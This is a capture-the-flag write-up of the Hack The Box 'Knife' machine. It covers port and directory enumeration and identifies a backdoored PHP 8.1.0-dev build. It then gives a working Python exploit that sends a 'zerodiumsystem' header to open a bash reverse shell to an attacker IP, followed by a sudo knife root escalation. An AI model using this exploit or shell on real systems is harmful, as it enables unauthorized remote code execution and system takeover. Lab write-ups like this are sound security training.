





# Writeup for [Knife](https://app.hackthebox.eu/machines/Knife) from [Hack The Box](https://app.hackthebox.eu/)

## Table of Contents
<!-- MarkdownTOC -->

- [Machine Information](#machine-information)
- [Information Gathering and Enumeration](#information-gathering-and-enumeration)
	- [HTTP - PORT 80](#http---port-80)
- [Exploitation](#exploitation)
- [Privilege Escalation](#privilege-escalation)

<!-- /MarkdownTOC -->

## Machine Information
* OS		 : Linux
* Difficulty : Easy
* Points	 : 20
* IP		 : 10.10.10.242

## Information Gathering and Enumeration

Let's start off with an nmap scan.
```shell
nmap -sCV -oN nmap/knife -vv 10.10.10.242
```

I love using the `-vv` flag to show open ports as nmap finds them.

We see 2 ports open, SSH on 22 and HTTP on 80. Pretty standard for Hack The Box stuff.

To make sure that we get all the ports on the box, let's run a full port scan on the box as we inspect the HTTP service running on port 80.

```shell
nmap -p- -oN nmap/all_ports -vv 10.10.10.242
```

### HTTP - PORT 80

Inspecting the page, we see nothing much just some dead links and a fancy landing page.



Looking at the source HTML file doesn't give us much info, so I will try to determine what type of website this is. Simply append `/index.extension` on the page (`http://10.10.10.242/index.html` or `http://10.10.10.242/index.php`)

We use `index.extension` because usually the default file name for the root page is index.extension. 

Trying `index.html` on the webpage gives us a `404 Not Found` error, so I try to do `index.php` and it returns our original page. So we can conclude that this website is probably using **`PHP`** as it's backend.

Now that we know that this website is running **PHP**, I always like to run more automated recon on the background as I dig around manually. So let's run a directory fuzzing tool, I prefer to use `gobuster`.

```shell
gobuster dir -u 10.10.10.242 -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt -t 20 -x php -o gobuster/raft-small-php-root
```

While gobuster is running, I always like to check for network traffic on the webpage, to do this we can utilize the `Developer Tools` in our browser.

Simply press **`F12`** on the keyboard and navigate to the **`Networks`** tab. By simply reloading the page, we can get all traffic made by the web page.

We are interested on the traffic for the current page which is `index.php` and I always start by looking at the HTTP Headers of that request. We see a **`X-Powered-By`** header with the value of PHP/8.1-dev, meaning our conclusion that this page utilizes PHP is correct.

 

This header also gives us that specific version of PHP, meaning we can potentially find public exploits for it. Googling around, I found that this version of PHP has a backdoor planted within itself that we can potentially exploit.

## Exploitation

[This](https://github.com/flast101/php-8.1.0-dev-backdoor-rce) github repo contains PoC script ,a reverse shell script, and the [article](https://flast101.github.io/php-8.1.0-dev-backdoor-rce/) to read the whole story of this compromise. Having read through the story and the exploit, I decided to put together a simple python script for this.

```python
#!/usr/bin/env python3

import requests

host = 'http://10.10.10.242'

r = requests.Session()

# Reverse Shell to my attacker box
cmd = 'bash -c "bash -i >& /dev/tcp/10.10.14.13/9001 0>&1"'

header = {
        "User-Agent" : "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0",
        # The Exploit itself
        "User-Agentt" : f"zerodiumsystem('{cmd}');",
        }

resp = r.get(host , headers = header, allow_redirects = False)
print(resp.text)

```

Before running the script, make sure that we are listening on the desired port. 9001 in my case.

```shell
nc -lnvp 9001
```
Running the script should give us a callback from the box.



## Privilege Escalation

Now that we have a user shell as `james`, let's start working our way up to root. The first thing we should always do upon landing on a box is to check **sudo permissions**.

Running `sudo -l` we see that we can run the binary `/usr/bin/knife` as **root without a password**. 



Everytime I see a binary that we can execute with sudo, I always go to [GTFOBins](https://gtfobins.github.io) to check whether this binary is exploitable or not.

Turns out we can exploit this `knife` binary with sudo to get root with the command;
```shell
sudo knife exec -E 'exec "/bin/bash"'
```


